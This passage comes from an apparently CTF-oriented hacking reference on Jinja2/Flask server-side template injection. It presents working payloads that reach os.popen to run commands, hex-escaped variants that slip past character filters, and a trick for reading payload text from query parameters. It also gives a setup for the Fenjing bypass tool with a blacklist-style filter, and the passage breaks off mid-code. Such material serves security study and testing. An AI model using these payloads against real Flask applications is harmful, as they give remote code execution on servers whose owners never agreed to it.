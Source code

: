 Alternatively, try this **one-shot** that works on Flask applications specifically:

{% code title="One shot" %}
```django
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
{% endcode %}

### Filter Bypass

{% embed url="https://jorianwoltjer.com/blog/post/ctf/cyber-apocalypse-2021/build-yourself-in" %}
Writeup of challenge where quotes (`'` & `"`) were blocked
{% endembed %}

{% code overflow="wrap" %}
```django
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
```
{% endcode %}

In Flask, it is also possible to read strings from query parameters. The following does not use many special characters while allowing you to put any special characters that you need in a `?a=` query parameter for the request triggering `render_template` or `render_template_string`:

```python
{{request|attr("args")|attr("get")("a")}}
```

When these don't cut it, try this phenomenal tool built specifically to bypass Jinja2 template injection filters. Given a server, it automatically detects the filter remotely to try and bypass it. This combines many tricks to bypass all kinds of character/word filters:

{% embed url="https://github.com/Marven11/Fenjing" %}
Automatic ()
{% endembed %}

You should read the documentation of the tool above ([English translation](https://github-com.translate.goog/Marven11/Fenjing?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_pto=wapp)) to understand its usage. One of its most useful features is shown in the [examples](https://github-com.translate.goog/Marven11/Fenjing/blob/main/examples.md?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_pto=wapp) when you can recreate the source code of the filter you are up against. Passing a function that returns `True` for valid requests and `False` for blocked ones, it can locally prepare a bypass for you to send in one shot:

<pre class="language-python"><code class="lang-python">from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level=logging.INFO)

<strong>COMMAND = "id > /tmp/pwned"
</strong>
def waf(s: str):
    blacklist = [
<strong>        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
</strong><strong>        "[", '"', "'", "_", ".", "+", "~", "{{",
</strong><strong>        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
</strong><strong>        "０", "１", "２", "３", "４", "５", "６", "７", "８", "９"
</strong>    ]
    return all(word not in s for word in blacklist)
